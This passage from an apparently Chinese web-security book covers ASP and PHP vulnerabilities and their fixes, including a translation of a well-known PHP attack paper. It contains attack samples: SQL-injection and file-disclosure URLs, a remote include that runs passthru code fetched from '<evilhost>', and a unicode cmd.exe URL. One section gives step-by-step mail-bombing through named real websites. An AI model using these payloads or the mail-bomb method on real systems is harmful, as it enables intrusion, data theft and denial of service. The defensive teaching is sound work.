这样的内容，如果调试变量被提交的话，那么当代码出错的时候会显示详细的错误信息。这就导致攻击者可能猜到这类变量的名字，从而获得详细的错误信息。这些信息中可能含有Web绝对路径等东西，这就是前面所说的为父级路径问题提供的信息。

#### 五、不要将用户名和密码直接存放

有些程序员在写程序的时候不加密用户密码，这样导致在被攻击后所有的密码都被攻击者获得。我们可以给这些代码加密，通常用MD5，总之不要直接存放。

#### 六、返回的错误信息

有些代码返回的错误信息很详细，许多文章也说过利用SQL Injection和ASP错误消息来获得SQL Server的数据库的结构。还有刚才说过的父级路径问题，当“filesystem”对象出错的时候，它将根据错误的不同显示不同的错误信息，这就为攻击者进行攻击猜测时提供了方便。所以，我们要解决这个问题，就是让ASP脚本返回尽可能少或者根本不返回错误信息，这样就可以给攻击者造成障碍。

参考：Writing Secure ASP Scripts

Chris Anley<chris@ngsoftware.com>2003/03

http://www.ngsoftware.com

注：该文章中还提到了其他一些问题，但是都不是很容易攻击，也不容易出现的。所以我就没在本文中提到。

# # 第3章 PHP脚本攻击与防范

# ## 3.1 PHP的10项安全检查

Web应用程序正逐渐成为对数据、服务和产品提供公共访问使用的一种流行方式，这是Web应用程序的根本优势所在，然而这些程序中的安全漏洞也是被广泛地披露和频繁地利用。编写程序的确是很容易出现些意料之外的安全隐患，这点已经被一系列的著名Web程序证明，包括PHPMy-Admin、PHPShop和FreeTrade，它们都曾有过严重漏洞。查找漏洞往往需要源代码，而一般的Web应用程序的代码又是开放的。因此，本文提供了10个步骤以帮助你在使用PHP编写程序的时候找出或避免诸如此类的安全漏洞。

# ### 一、存取文件时避免使用变量

试看如下代码：

```
php
// $lib_dir 是一任意变量：
include($lib_dir . "functions.inc");
更糟的情况可能会是这样：
// $page 是从URL获取值的变量：
include($page);

```

用户可以任意设置变量$lib_dir和$page的值，其中包含某特殊文件，如/etc/passwd，也有可能是内置恶意代码的远程文件http://www.some-site.com/whatever.php，这个代码可能删除文件、损坏数据库或改变变量值而保存身份鉴定状态。

+   1. **需要查找的内容**
   在代码中搜索如下函数：
   - readfile
   - fopen
   - file
   - include
   - require

+   2. **可行的解决方案或改进方式**
   - 避免把变量作为文件名。上面的那个$lib_dir变量可以由PHP的define函数来定义取代。
   - 利用合法文件名列表来一一检查，例如：

```
php
$valid_pages = array(
    "apage.php" => ""
);

```

```
php
"another.php" => "",
"more.php" => "");
if (!isset($valid_pages[$page])) {
    die("非法请求");
}

```

+   - 更多的保证变量不被恶意设置的信息请参阅下文中的“不要相信全局变量”一节。
- 利用 allow_url_fopen 和 open_basedir 配置变量来限制文件来源。

#### 二、处理SQL语句中的特殊字符

一个很常见的错误就是，直接把用户提交的变量放到SQL查询语句中执行却不进行任何处理，下面这个脚本片段是用来验证由某个表单提交的用户名和密码：

```
php
$query = "SELECT * FROM users WHERE username='" . $username . "' AND password='" . $password . "'";
if (record_exists($query)) {
    echo "可以访问";
} else {
    echo "拒绝访问";
}

```

当用户提交 check.php?username=admin&password=x 时，这段代码可以正常工作，但当用户提交 check.php?username=admin&password=a%27+OR+1%3D%271（我们这里假设 magic_quotes_gpc 是禁止的），password 便变成了 Password='a' or '1'='1'，显然验证被绕开了。

php.ini 配置文件中的 magic_quotes_gpc 变量值设置为“on”，可以在一定程度上解决这个问题。这意味着 PHP 将会用反斜杠(\)来处理 GET、POST 以及 Cookie 数据，但为了避免出现一些莫名其妙的问题，magic_quotes_gpc 通常是被禁止的。在上面的代码中加一句 echo $username，你会发现所有的单引号（'）都被替换成为 \'。此外，要强调的一点是：有些变量 magic_quotes_gpc 是保护不了的，因为某些变量取值可能来自某个恶意用户通过正常程序操作修改的数据库记录或文件。

+   1. 需要查找的内容
   根据你所使用的数据库软件来搜索相应的查询函数。例如，你使用的是 MySQL，就应该搜索 mysql_db_query 函数。
2. 可行的解决方案或改进方式
   - 使用 addslashes 之类的函数把 SQL 语句中的引号和反斜杠用反斜杠过滤；
   - 打开 magic_quotes_gpc 可能会有些帮助，但也不能全靠它（打开这个选项时，若使用 addslashes 函数会产生错误）；
   - 如果你希望在 SQL 语句中所使用的变量包含数字，那就得确保其含有数字。你可以用各种不同的 PHP 内置函数（包括 sprintf、ereg 和 is_long）来检查变量。

#### 三、不要相信全局变量

如果 register_globals 选项是打开的，PHP 会创建 HTTP 请求中 GET、POST 和 COOKIE 包含的每一个变量，这意味着非法用户可以无限制地设置变量。如下代码试图允许任意用户访问单个文章，而访问其他的文章则是需要验证的，具体是这样的：

```
php
// 假设 $article_id 是由 URL 设置的
if (!$article_id == 0) {
    $guest_ok = true;
}
if (!$guest_ok) {
    // 用已定义函数来对用户进行认证
    check_auth();
}

```

这段代码似乎可以正常工作，因为 $article_id 变量一般会初始化为 false；但要是一个恶意用户提交 guest_ok=1 呢？他便可以浏览任意文章了。

另一个常见问题是，使用“记住密码”这一功能把用户的认证信息保存在 cookie 中，这样某些用户可能更改 cookie 值而冒充任意用户的身份登录系统。

+   1. **需要查找的内容**

这个问题几乎有可能存在于你代码的任一角落，如下几个地方尤需关注：

- 身份、权限验证部分；
- 变量没有进行初始化前的使用（可以使用 error_reporting 配置变量来提醒你；当你使用的变量没有被初始化时，它会给你警告）；
- 那些由 POST 或 GET 请求设置的变量的使用部分。

2. **可行的解决方案或改进方式**

- 在 php.ini 文件中禁止 register_globals 选项，这样设置后你得使用 $HTTP_GET_VARS 和 $HTTP_POST_VARS 这样的联合数组来访问 GET 和 POST 的值，虽然这样很麻烦，但可以使程序更安全。
- 译者注：从 PHP 4.2.0 版本开始，php.ini 中的设置选项 register_globals 默认值变成了 off，使用自 PHP 4.1.0 版本引入的自动全局数组变量会更好些，当然 $HTTP_*_VARS 数组依然存在。
- 如果使用“记住密码”这项功能，可在 cookie 中包含一个密码或难猜的随机标志符（这功能可能带来其他的漏洞，如一个恶意用户和一个合法用户共同使用一台机器，他可以合法用户的身份获得访问权）；
- 初始化所有的全局变量，上面那个有缺陷的脚本应该在代码的开头把 guest_ok 初始化为 false；
- 确保 session 变量能正常工作；
- 确保全局变量不在 $HTTP_POST 或 $HTTP_GET 联合数组中。

#### 四、解决文件上传所存在的隐患

这个实际上可归于“不可信任的全局变量”问题一类，但它值得我们把它单独拿出来讨论。当一文件上传后，PHP 脚本会给 PHP 所保存的上传文件一个临时文件名。不幸的是，任意用户都可以构造 URL 来设置这个值，比如说 /etc/passwd，这时 PHP 脚本处理的就不是什么上传文件了，它会直接把 /etc/passwd 复制到 Web 目录下某可以访问到的地方，或直接把内容反馈输出给用户的浏览器。

+   1. **需要查找的内容**

检查所有处理文件上传的脚本。直接搜索 type="file" 可以更快地找到这些文件。

2. **可行的解决方案或改进方式**

- 较新的 PHP 版本有 is_uploaded_file 和 move_uploaded_file 函数来保证脚本处理的确是上传文件；
- 如果你不能保证你的代码能否在新版本 PHP 下运行，请在 php.ini 中设置 upload_tmp_dir，并作严密检查以确保所处理的文件均在所设置目录中。

#### 五、把特殊字符转换为HTML格式

试想一个用户把 `<blink>` 标签提交到论坛会发生什么事？如果你在保存或显示输出前未做任何处理，那么跟在 `<blink>` 后面的文字就都会闪烁。当然，这种攻击方式可以更具威胁，例如攻击者可以插入一段恶性的javascript代码。

译者注：`<blink>` 标记只适合于NC浏览器。

+   1. 需要查找的内容

检查由用户输入并将内容反馈输出的页面文件。

2. 可行的解决方案或改进方式

- 在保存或显示输出前做些处理，可以利用PHP的内置函数htmlspecialchars或htmlentities来做到这点；
- 如果你允许用户使用HTML，最好限制他们只能使用诸如 `<b>`、`<i>` 一类的基本标记。

# 六、把 .php 作为所有脚本文件的后缀

很多程序员把 `.inc` 或 `.class` 作为库文件和配置文件的后缀，然后使用 include 函数调用它们。若某恶意用户直接请求这些以 `.inc` 或 `.class` 为后缀的文件，他将获取这些文件中的所有内容（包括PHP代码）。显然，这将导致敏感信息泄露。

+   1. 需要查找的内容

检查所有脚本的文件名。

2. 可行的解决方案或改进方式

- 把 `.php` 作为所有脚本文件的后缀；
- 不要把库文件和配制文件放在Web根目录下。

#### 七、不要把重要文件放置在根目录下

许多PHP系统通过用户认证或访问控制列表限制用户只能访问普通文件或图片。然而，其子目录下通常保存有一些PHP脚本，这样可以通过浏览器以正确的URL直接看到这些脚本的源文件。

另外，也不要把一些重要文件放在可执行程序的根目录下，比如说一张本应受到密码保护的图片。

+   1. 需要查找的内容

检查所有包含隐秘内容文件的目录的设置。

2. 可行的解决方案或改进方式

- 把重要文件放置在根目录之外；
- 把这些重要内容保存到数据库中；
- 利用Web平台的特性，如apache的 `.htaccess` 文件来避免用户直接访问这些文件目录。

#### 八、提防共享服务器上的其他用户

许多PHP站点放置在多人同时使用的服务器之上，其他用户可能通过一个php脚本或Webshell来修改、访问或删除你的文件或得到数据库密码。另一个潜在的威胁是，其他恶意用户可能创建一个session文件（默认保存在 `/tmp` 目录下）来绕过你站点中的认证。

+   1. 需要查找的内容

如果你使用的是这样的服务器，可以用phpinfo函数来看看服务器的配置，同时也得检查敏感文件的权限设置。

2. 可行的解决方案或改进方式

- 使用专用服务器，尽管价格不菲，但这笔花销带来了安全和效率；
- 确保所用服务器打开了 safe_mode 选项（可以使用phpinfo函数查看），然而这会使其他一些程序……

[PAGE 52]

不能执行，会在一定程度上限制你站点的功能；

+   ★ 设置文件权限，其他用户即使知道文件名也只能读（在UNIX系统上把目录权限设置为711）。

#### 九、避免错综复杂的变量类型

为了适应当前所用，PHP经常转换变量的类型。这些问题很难发现，但它的确造成了phpMyadmin之类的流行软件的漏洞。我们来看看下面的代码：

```
php
<?php
    $users[0] = ""; // 游客
    $users[1] = "password1";
    $users[2] = "password2";

    // 检查用户提供的 $user_id 是否为 0、1 或 2
    if ($user_id < 0 || $user_id > 2 || !isset($user_id)) {
        die("Invalid user ID");
    }

    // 检查正规用户输入的密码是否正确
    if ($user_id != 0 && $password != $users[$user_id]) {
        die("Password invalid");
    }

    // 告诉用户其所属类型
    if ($user_id) {
        echo "You are an authenticated user";
    } else {
        echo "You are a guest user";
    }
?>

```

代码似乎是对$user_id进行了全面的检查，但要是$user_id的值为00或a的时候，验证就被轻易地绕开了。

+   1. **需要查找的内容**
   这类缺陷是很难识别的，但如下几个地方是比较容易出问题的：
   
   ★ 对用户输入的数字值进行比较判断的地方；
   
   ★ 矛盾或多余的表达式，如把 if ($x != 0) 和 if ($x) 放在一起。

2. **可行的解决方案或改进方式**
   
   ★ 注意把用户输入值的类型转换为某特定类型；
   
   ★ 使用像is_long这样的类型检查函数。

#### 十、命令执行语句避免（或转化）用户输入

使用像exec和eval这样的函数，可以使你的程序变得更加灵活，但必须谨慎，要避免用户执行任意命令。

+   1. **需要查找的内容**
   检查所有能执行系统命令的函数或PHP代码；
   
   ★ eval
   
   ★ preg_replace（与“/e”开关一起使用时，替换字符串将被解释为PHP代码）
   
   ★ exec

+   - passthru
- system
- popen
- ``（反引号，可以执行命令）

#### 代码之外的讨论——牢固的整体安全设计

如上所有的步骤都是和编程有关的，但在着手编写程序之前，若能在整体上作出完善的考虑，很大程度上可以决定程序的安全性，如下有一些基本技巧：

+   - 考虑采用HTTPS加密传输，这点很重要，哪怕你的私有信息并不那么重要，窃听者可以获取你的密码和session认证信息并利用它们来躲开你程序的安全验证。
- 考虑采用主机/域名或IP地址来限制用户访问敏感页面。利用Web平台的特性如apache的`.htaccess`文件来做到这点，或者在脚本中使用诸如$REMOTE_ADDR之类的变量来检查。
- 用已有的安全包来进行验证，如PHPLib。

#### 结论

任何语言都存在安全隐患，但如果我们能将注意力集中到这些弱点，便可避免很多安全漏洞。把本文所示的10个步骤作为日常编写、检查代码的一部分工作来实行，可以给我们带来更为安全的应用程序。

#### 参考

+   - A Study In Scarlet – Exploiting Common Vulnerabilities in PHP Applications – Shaun Clowes, SecureReality
- Security flaws in PHP – Jo Henrik Endrerud, zez.org
- PHP Manual – Stig S?ther Bakken, et al, PHP.
- 原文：Ten Security Checks for PHP
- 原著：Clancy Malcolm <clancym@domnet.com.au>
- 注：本文原为两部分，原文网址：http://www.oreillynet.com/pub/a/1150。

### 3.2 新闻管理程序中“推荐好友”功能的安全隐患

现在DoS/DDoS很流行，一些无聊人士钟情于此。国内一些不错的安全站点不少都遭受了袭击。本文介绍的是利用一些新闻站点提供的将新闻通过E-mail发送给好友的功能进行对Mailbox的轰炸，或者说对于邮件服务器的DoS/DDoS攻击（这完全有可能实现）。本文涉及的内容造成的损失与作者以及作者所在组织无关。

举个实例(没别的意思，出了乱子别找我)http://www.infosec.gov.cn/这个站点大家大概比较熟悉，它是国家计算机网络与信息安全管理中心的服务器，它上面存在着一个叫做recommend.php的文件，这就是用来实现邮件发送新闻的功能，但是它就是没对重复提交问题做出限制，这直接导致我们可以……

让我们动手试试看。我们的目的就是轰炸一个Mailbox，测试目标是新注册的一个信箱——xxxx@21cn.com，我们填好用户名，自然是乱填，就叫“卧室白痴”；其他要写姓名的地方都随便填；邮件地址写xxxx@21cn.com，其余的随便你怎么写。点击“发送”就可以了。程序会提示你发送成功，然后我们就在这个返回的成功页面不断刷新，N次后，由于该站点（多数站点如此）支持同时发送给多人，但是又不检查用户输入的E-mail地址是否相同，所以它支持同时发送多少人（假设X人），受害者收到的信件就是X×N封。更为讽刺的是，这些新闻的长度都不会太小，当然，那个信箱就有的受了……目前国内外的多个站点经我测试都存在该问题，比如Sina/Yahoo/Sohu等等。并且Yahoo的问题更严重。

上面所说的这种方法只不过是简单的实现对于个人Mailbox的攻击，其实利用这种缺陷，完全可以对于一个邮件服务器进行大规模的DDoS攻击。原理很简单，你找N个存在问题的站点，写个程序，自动解析出提交给邮件发送程序变量，并且随机生成某一邮件服务器上的帐号（如果你对单一账号发送大量邮件，可能会被一些设置过的服务器过滤），然后不断提交给那些沦为“帮凶”存在缺陷的服务器，受害者自然也就不好过了。当然这只是设想，理论上的东西，没有测试过，你有兴趣可以自己写出Exploit。

对于一些存在缺陷的服务器，可能在接受大量提交数据的同时自己就先跨掉了。比如利用类似SQL兄介绍过的Web压力测试器的程序提交数据。同时，某些站点还允许发送本站数据以外的内容。

好了，其他就不说了。本来这些东西也没什么好说的，类似的问题可能还很多，也许大家早就发现这个问题了，只是不愿说出来罢了。本人水平所限，写不出什么技术高深的文章，大家见笑了。

附：
- 1. Exploit for test

- 2. 解决方案：
  - 可以限制数据重复提交；
  - E-mail服务器应该过滤重复多次发送的信件；

请各位自行完善。

### 3.3 如何对PHP程序中的常见漏洞进行攻击

之所以翻译这篇文章，是因为目前关于CGI安全性的文章都是拿Perl作为例子，而专门介绍ASP、PHP或者JSP安全性的文章则很少。Shaun Clowes的这篇文章比较全面地介绍了PHP的安全问题，原文可以在http://www.securereality.com.au/studyinscarlet.txt找到。

由于原文比较长，而且有相当一部分是介绍文章的背景或PHP的基础知识，没有涉及到PHP安全方面的内容，因此我没有翻译。如果你想了解这方面的知识，请参考原文。

文章主要从全局变量，远程文件，文件上传，库文件，Session文件，数据类型和容易出错的函数这几个方面分析了PHP的安全性，并且对如何增强PHP的安全性提出了一些有用的建议。

好了，废话少说，我们言归正传！

### 【全局变量】

PHP中的变量不需要事先声明，它们会在第一次使用时自动创建，它们的类型也不需要指定，它们会根据上下文环境自动确定。从程序员的角度来看，这无疑是一种极其方便的处理方法。很显然，这也是快速开发语言的一个很有用的特点。一旦一个变量被创建了，就可以在程序中的任何地方方便使用。这个特点导致的结果就是程序员很少初始化变量，毕竟，当它们第一次创建时，他们是空的。

很显然，基于PHP的应用程序的主函数一般都是接受用户的输入（主要是表单变量、上传文件和Cookie等），然后对输入数据进行处理，然后把结果返回到客户端浏览器。为了使PHP代码访问用户的输入尽可能容易，实际上PHP是把这些输入数据看作全局变量来处理的。

例如：
```html
<FORM METHOD="GET" ACTION="test.php">
<INPUT TYPE="TEXT" NAME="hello">
<INPUT TYPE="SUBMIT">
</FORM>
```

很显然，这会显示一个文本框和提交按钮。当用户点击提交按钮时，“test.php” 会处理用户的输入，当 “test.php” 运行时，“$hello” 会包含用户在文本框输入的数据。从这里我们应该看出，攻击者可以按照自己的意愿创建任意的全局变量。如果攻击者不是通过表单输入来调用 “test.php”，而是直接在浏览器地址栏输入 `http://server/test.php?hello=hi&setup=no`，那么，不止是 “$hello” 被创建，“$setup” 也被创建了。

译者注：这两种方法也就是我们通常说的 “POST” 和 “GET” 方法。
下面的用户认证代码暴露了PHP的全局变量所导致的安全问题：
```php
<?php
if ($pass == "hello")
    $auth = 1;
...
if ($auth == 1)
    echo "some important information";
?>
```

上面的代码首先检查用户的密码是否为 “hello”，如果匹配的话，设置 “$auth” 为 “1”，即通过认证。之后如果 “$auth” 为 “1” 的话，就会显示一些重要信息。

表面看起来是正确的，而且我们中有相当一部分人是这样做的，但是这段代码犯了想当然的错误，它假定 “$auth” 在没有设置值的时候是空的，却没有想到攻击者可以创建任何全局变量并赋值，通过类似 “`http://server/test.php?auth=1`” 的方法，我们完全可以欺骗这段代码，使它相信我们是已经认证过的。

因此，为了提高PHP程序的安全性，我们不能相信任何没有明确定义的变量。如果程序中的变量很多的话，这可是一项非常艰巨的任务。

一种常用的保护方式就是检查数组 HTTP_GET_VARS 或 POST_VARS 中的变量，这依赖于我们的提交方式（GET或POST）。当PHP配置为打开 “track_vars” 选项的话（这是缺省值），用户提交的变量就可以在全局变量和上面提到的数组中获得。

但是值得说明的是，PHP有四个不同的数组变量用来处理用户的输入。HTTP_GET_VARS 数组用来处理GET方式提交的变量，HTTP_POST_VARS 数组用于处理POST方式提交的变量，HTTP_COOKIE_VARS 数组用于处理作为cookie头提交的变量，而对于 HTTP_POST_FILES 数组（比较新的PHP才提供），则完全是用户用来提交变量的一种可选方式。用户的一个请求可以很容易的把变量存在这四个数组中，因此一个安全的PHP程序应该检查这四个数组。

### 【远程文件】

PHP是一种具有丰富特性的语言，提供了大量的函数，使编程者实现某个功能很容易。
但是从安全的角度来看，功能越多，要保证它的安全性就越难，远程文件就是说明这个问题的一个很好的例子：
```php
<?php
if (!($fd = fopen("$filename", "r")))
    echo("Could not open file: $filename<BR>\n");
?>
```

上面的脚本试图打开文件“$filename”，如果失败就显示错误信息。很明显，如果我们能够指定“$filename”的话，就能利用这个脚本浏览系统中的任何文件。但是，这个脚本还存在一个不太明显的特性，那就是它可以从任何其它WEB或FTP站点读取文件。实际上，PHP的大多数文件处理函数对远程文件的处理是透明的。

例如：
如果指定“$filename”为“http://target/scripts/..%c1%1c../winnt/system32/cmd.exe?/c+dir”则上面的代码实际上是利用主机target上的unicode漏洞，执行了dir命令。

这使得支持远程文件的include()、require()、include_once()和require_once()在上下文环境中变得更有趣。这些函数主要功能是包含指定文件的内容，并且把它们按照PHP代码解释，主要是用在库文件上。

例如：
```php
<?php
include($libdir . "/languages.php");
?>
```

上例中“$libdir”一般是一个在执行代码前已经设置好的路径，如果攻击者能够使得“$libdir”没有被设置的话，那么他就可以改变这个路径。但是攻击者并不能做任何事情，因为他们只能在他们指定的路径中访问文件languages.php（perl中的“Poison null byte”攻击对PHP没有作用）。但是由于有了对远程文件的支持，攻击者就可以做任何事情。例如，攻击者可以在某台服务器上放一个文件languages.php，包含如下内容：
```php
<?php
passthru("/bin/ls /etc");
?>
```

然后把“$libdir”设置为“http://<evilhost>/”，这样我们就可以在目标主机上执行上面的攻击代码，“/etc”目录的内容作为结果返回到客户的浏览器中。

需要注意的是，攻击服务器（也就是evilhost）应该不能执行PHP代码，否则攻击代码会在攻击服务器，而不是目标服务器上执行，如果你想了解具体的技术细节，请参考：

http://www.securereality.com.au/sradv00006.txt

#### 文件上传

PHP自动支持基于RFC 1867的文件上传，我们看下面的例子：
```html
<FORM METHOD="POST" ENCTYPE="multipart/form-data">
<INPUT TYPE="FILE" NAME="hello">
<INPUT TYPE="HIDDEN" NAME="MAX_FILE_SIZE" VALUE="10240">
<INPUT TYPE="SUBMIT">
</FORM>
```

上面的代码让用户从本地机器选择一个文件，当点击提交后，文件就会被上载到服务器。
这显然是很有用的功能，但是PHP的响应方式使这项功能变的不安全。当PHP第一次接到这种请求，甚至在它开始解析被调用的PHP代码之前，它会先接受远程用户的文件，检查文件的长度是否超过“$MAX_FILE_SIZE variable”定义的值，如果通过这些测试的话，文件就会被存在本地的一个临时目录中。

因此，攻击者可以发送任意文件给运行PHP的主机，在PHP程序还没有决定是否接受文件上载时，文件已经被存在服务器上了。
这里我就不讨论利用文件上载来对服务器进行DOS攻击的可能性了。

让我们考虑一下处理文件上载的PHP程序，正如我们上面说的，文件被接收并且存在服务器上（位置是在配置文件中指定的，一般是/tmp），扩展名一般是随机的，类似“phpxXuoXG”的形式。PHP程序需要上载文件的信息以便处理它，这可以通过两种方式，一种方式是在PHP 3中已经使用的，另一种是在我们对以前的方法提出安全公告后引入的。

但是，我们可以肯定的说，问题还是存在的，大多数PHP程序还是使用老的方式来处理上载文件。PHP设置了四个全局变量来描述上载文件，比如说上面的例子：
```text
$hello = Filename on local machine (e.g "/tmp/phpxXuoXG")
$hello_size = Size in bytes of file (e.g 1024)
$hello_name = The original name of the file on the remote system (e.g "c:\\temp\\hello.txt")
$hello_type = Mime type of uploaded file (e.g "text/plain")
```

然后PHP程序开始处理根据“$hello”指定的文件，问题在于“$hello”不一定是一个PHP设置的变量，任何远程用户都可以指定它。如果我们使用下面的方式：
```text
http://vulnhost/vuln.php?hello=/etc/passwd&hello_size=10240&hello_type=text/plain&hello_name=hello.txt
```
就导致了下面的PHP全局变量（当然POST方式也可以（甚至是Cookie））：
```text
$hello = "/etc/passwd"
$hello_size = 10240
$hello_type = "text/plain"
$hello_name = "hello.txt"
```

上面的表单数据正好满足了PHP程序所期望的变量，但是这时PHP程序不再处理上载的文件，而是处理“/etc/passwd”（通常会导致内容暴露）。这种攻击可以用于暴露任何敏感文件的内容。
我在前面已经说了，新版本的PHP使用HTTP_POST_FILES来决定上载文件，同时也提供了很多函数来解决这个问题，例如有一个函数用来判断某个文件是不是实际上传的文件。这些函数很好的解决了这个问题，但是实际上肯定有很多PHP程序仍然使用旧的方法，很容易受到这种攻击。
作为文件上载的攻击方法的一个变种，我们看一下下面的一段代码：
```php
<?php
    if (file_exists($theme)) // Checks the file exists on the local system (no remote files)
include("$theme");
?>
```

如果攻击者可以控制“$theme”的话，很显然它可以利用“$theme”来读取远程系统上的任何文件。攻击者的最终目标是在远程服务器上执行任意指令，但是他无法使用远程文件，因此，他必须得在远程服务器上创建一个PHP文件。这乍看起来好象是不可能的，但是文件上传帮了我们这个忙，如果攻击者先在本地机器上创建一个包含PHP代码的文件，然后创建一个包含名为“theme”的文件域的表单，最后用这个表单通过文件上传把创建的包含PHP代码的文件提交给上面的代码，PHP就会把攻击者提交的文件保存起来，并把“$theme”的值设置为攻击者提交的文件，这样file_exists()函数会检查通过，攻击者的代码也将执行。

获得执行任意指令的能力之后，攻击者显然想提升权限或者是扩大成果，而这又需要一些服务器上没有的工具集，而文件上传又一次帮了我们这个忙。攻击者可以使用文件上传功能上载工具，把她们存在服务器上，然后利用他们执行指令的能力，使用chmod()改变文件的权限，然后执行。例如：攻击者可以绕过防火墙或IDS上载一个本地root攻击程序，然后执行，这样就获得了root权限。

### 【库文件】

正如我们前面讨论的那样，include()和require()主要是为了支持代码库，因为我们一般是把一些经常使用的函数放到一个独立的文件中，这个独立的文件就是代码库，当需要使用其中的函数时，我们只要把这个代码库包含到当前的文件中就可以了。

最初，人们开发和发布PHP程序的时候，为了区别代码库和主程序代码，一般是为代码库文件设置一个“.inc”的扩展名，但是他们很快发现这是一个错误，因为这样的文件无法被PHP解释器正确解析为PHP代码。如果我们直接请求服务器上的这种文件时，我们就会得到该文件的源代码，这是因为当把PHP作为Apache的模块使用时，PHP解释器是根据文件的扩展名来决定是否解析为PHP代码的。扩展名是站点管理员指定的，一般是“.php”、“.php3”和“.php4”。如果重要的配置数据被包含在没有合适的扩展名的PHP文件中，那么远程攻击者很容易得到这些信息。

最简单的解决方法就是给每个文件都指定一个PHP文件的扩展名，这样可以很好的防止泄露源代码的问题，但是又产生了新的问题，通过请求这个文件，攻击者可能使本该在上下文环境中运行的代码独立运行，这可能导致前面讨论的全部攻击。

下面是一个很明显的例子：
```text
In main.php:
```
```php
<?php
$libDir = "/libdir";
$langDir = "$libdir/languages";
...
include("$libdir/loadlanguage.php");
?>
```

```text
In libdir/loadlanguage.php:
```
```php
<?php
...
include("$langDir/$userLang");
?>
```

当“libdir/loadlanguage.php”被“main.php”调用时是相当安全的，但是因为“libdir/loadlanguage”具有“.php”的扩展名，因此远程攻击者可以直接请求这个文件，并且可以任意指定“$langDir”和“$userLang”的值。

### [Session文件]

PHP 4或更新的版本提供了对sessions的支持，它的主要作用是在PHP程序中保存页与页之间的状态信息。例如，当一个用户登陆进入网站，他登陆了这个事实以及谁登陆进入这个网站都被保存在session中，当他在网站中到处浏览时，所有的PHP代码都可以获得这些状态信息。

事实上，当一个session启动时（实际上是在配置文件中设置为在第一次请求时自动启动），就会生成一个随机的“session id”，如果远程浏览器总是在发送请求时提交这个“session id”的话，session就会一直保持。这通过Cookie很容易实现，也可以通过在每页提交一个表单变量（包含“session id”）来实现。PHP程序可以用session注册一个特殊的变量，它的值会在每个PHP脚本结束后存在session文件中，也会在每个PHP脚本开始前加载到变量中。下面是一个简单的例子：
```php
session_destroy(); // Kill any data currently in the session
$session_auth = "shaun";
session_register("session_auth"); // Register $session_auth as a session variable
```

新版本的PHP都会自动把“$session_auth”的值设置为“shaun”，如果它们被修改的话，以后的脚本都会自动接受修改后的值，这对无状态的Web来说的确是种很不错的工具，但是我们也应该小心。

一个很明显的问题就是确保变量的确来自session，例如，给定上面的代码，如果后续的脚本是下面这样的话：
```php
if (!empty($session_auth))
    // Grant access to site here
```

上面的代码假定如果“$session_auth”被置位的话，就是从session，而不是从用户输入来置位的，如果攻击者通过表单输入来置位的话，他就可以获得对站点的访问权。注意攻击者必须在session注册该变量之前使用这种攻击方法，一旦变量被放进了session，就会覆盖任何表单输入。

Session数据一般是保存在文件中（位置是可配置的，一般是“/tmp”），文件名一般是类似“sess_<session id>”的形式，这个文件包含变量名称、变量类型、变量值和一些其它的数据。在多主机系统中，因为文件是以运行Web服务器的用户身份（一般是nobody）保存的，因此恶意的站点拥有者就可以通过创建一个session文件来获得对其它站点的访问，甚至可以检查session文件中的敏感信息。

Session机制也为攻击者把自己的输入保存在远程系统的文件中提供了另一个方便的地方，对于上面的例子来说，攻击者需要在远程系统放置一个包含PHP代码的文件，如果不能利用文件上载做到的话，他通常会利用session为一个变量按照自己的意愿赋一个值，然后猜测session文件的位置，而他知道文件名是“php<session id>”，所以只需猜测目录，而且目录一般就是“/tmp”。

另外，攻击者可以任意指定“session id”（例如“hello”），然后用这个“session id”创建一个session文件（例如“/tmp/sess_hello”），但是“session id”只能是字母和数字组合。

#### 数据类型

PHP具有比较松散的数据类型，变量的类型依赖于它们所处的上下文环境。例如：“$hello”开始是字符串变量，值为“”，但是在求值时，就变成了整型变量“0”，这有时可能会导致一些意想不到的结果。如果“$hello”的值为“000”还是为“0”是不同的；empty()返回的结果也会为真。

PHP中的数组是关联数组，也就是说，数组的索引是字符串型的。这意味着“$hello["000"]”和“$hello[0]”也是不同的。

开发程序的时候应该仔细地考虑上面的问题，例如，我们不应该在一个地方测试某个变量是否为“0”，而在另外的地方使用empty()来验证。

#### 容易出错的函数

我们在分析PHP程序中的漏洞时，如果能够拿到源代码的话，那么一份容易出错的函数列表则是我们非常需要的。如果我们能够远程改变这些函数的参数的话，那么我们就很可能发现其中的漏洞。下面是一份比较详细的容易出错的函数列表：

```php
<PHP代码执行>
require(): 读取指定文件的内容并且作为 PHP 代码解释
include(): 同上
eval(): 把给定的字符串作为 PHP 代码执行
preg_replace(): 当与 "/e" 开关一起使用时，替换字符串将被解释为 PHP 代码

<命令执行>
exec(): 执行指定的命令，返回执行结果的最后一行
passthru(): 执行指定命令，返回所有结果到客户端浏览器
``: 执行指定命令，返回所有结果到一个数组
system(): 同 passthru()，但是不处理二进制数据
popen(): 执行指定的命令，把输入或输出连接到 PHP 文件描述符

<文件泄露>
fopen(): 打开文件，并对应一个 PHP 文件描述符
readfile(): 读取文件的内容，然后输出到客户端浏览器
file(): 把整个文件内容读到一个数组中
```

译者注：其实这份列表还不是很全，比如“mail()”等命令也可能执行命令，所以需要自己补充一下。

#### 如何增强PHP的安全性

我在上面介绍的所有攻击对于缺省安装的PHP 4都可以很好的实现，但是我已经重复了很多次，PHP的配置非常灵活，通过配置一些PHP选项，我们完全可能抵抗其中的一些攻击。下面我按照实现的难度对一些配置进行了分类：

- `****` 低难度
- `***` 中低难度
- `**` 中高难度
- `*` 高难度

上面的分类只是个人的看法，但是我可以保证，如果你使用了PHP提供的所有选项的话，那么你的PHP将是很安全的，即使是第三方的代码也是如此，因为其中很多功能已经不能使用。

### **** 设置 register_globals 为 off

